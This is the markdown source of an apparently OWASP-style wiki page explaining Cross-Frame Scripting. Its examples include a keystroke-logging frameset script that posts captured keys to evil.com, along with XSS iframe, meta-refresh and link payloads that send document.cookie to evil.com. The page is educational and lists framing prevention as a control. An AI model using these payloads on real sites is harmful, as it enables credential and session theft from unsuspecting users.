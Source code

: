 ```yaml
---

layout: col-sidebar
title: Cross Frame Scripting
author: 
contributors: 
permalink: /attacks/Cross_Frame_Scripting
tags: attack, Cross Frame Scripting
auto-migrated: 1

---
```


{% include writers.html %}

## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as they try to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like they are actually visiting example.com The
attacker registers some javascript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

    <!-- http://evil.com/example.com-login.html -->
    <head>
    <script>
    // array of user keystrokes
    var keystrokes = [];
    // event listener which captures user keystrokes
    document.onkeypress = function() {
        keystrokes.push(window.event.keyCode);
    }
    // function which reports keytrokes back to evil.com every second
    setInterval(function() {
        if (keystrokes.length) {
            var xhr = newXHR();
            xhr.open("POST", "http://evil.com/k");
            xhr.send(keystrokes.join("+"));
        }
        keystrokes = [];
    }, 1000);
    // function which creates an ajax request object
    function newXHR() {
        if (window.XMLHttpRequest)
            return new XMLHttpRequest();
        return new ActiveXObject("MSXML2.XMLHTTP.3.0");
    }
    </script>
    </head>
    <!-- re-focusing to this frameset tricks browser into leaking events -->
    <frameset onload="this.focus()" onblur="this.focus()">
    <!-- frame which embeds example.com login page -->
    <frame src="http://example.com/login.html">
    </frameset>

### XSS Attack Using Frames

To exploit a [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some javascript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

    <iframe style="position:absolute;top:-9999px" src="http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>

The iframe is hidden off-screen, so the browser user won't have any idea
that they just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

    <meta http-eqiv="refresh" content="1;url=http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>">

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that he
or she just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that they are visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some javascript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

    http://example.com/flawed-page.html?=<iframe src="↵
        javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

  - An XFS attack generally is carried out by a malicious
    [:Category:Internet
    attacker](:Category:Internet_attacker "wikilink").
  - An XFS attack exploiting a browser bug which leaks events across
    frames is similar to an attack which uses conventional key-logging
    software.

## Related Attacks

  - An attacker might use a hidden frame to carry out a [Cross-site
    Scripting (XSS)](xss) attack.
  - An attacker might use a hidden frame to carry out a [Cross-Site
    Request Forgery
    (CSRF)](Cross-Site_Request_Forgery_\(CSRF\) "wikilink") attack.
  - An attacker might use a visible frame to carry out a
    [Clickjacking](Clickjacking "wikilink") attack.
  - An XFS attack exploiting a browser bug which leaks events across
    frames is a form of a [Phishing](Phishing "wikilink") attack (the
    attacker lures the user into typing-in sensitive information into a
    frame containing a legitimate third-party page).

## Related Vulnerabilities

  - XFS attacks exploit specific browser bugs.

## Related Controls

  - XFS attacks may denied by preventing the third-party web page from
    being framed; the techniques used to do this are the same as those
    used for [Clickjacking Protection for Java
    EE](Clickjacking_Protection_for_Java_EE "wikilink").

## References

  - MSDN article [About Cross-Frame Scripting and
    Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
  - iDefense Labs advisory [Microsoft Internet Explorer Cross Frame
    Scripting Restriction
    Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)
